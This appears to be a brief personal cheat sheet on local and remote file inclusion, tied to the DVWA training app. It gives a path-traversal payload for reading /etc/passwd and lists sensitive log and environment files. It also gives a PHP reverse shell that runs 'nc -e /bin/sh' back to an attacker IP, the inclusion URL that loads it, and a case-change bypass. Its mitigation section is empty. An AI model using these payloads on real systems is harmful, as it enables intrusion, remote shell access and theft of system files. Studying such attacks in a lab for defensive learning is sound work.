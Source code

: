 # File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```

- Intersting files
  - /proc/self/environ
  - /var/log/auth.log
  - /var/log/apache2/access.log  

- Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  

## Remote
- Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
```
  - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```

- Bypass
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  
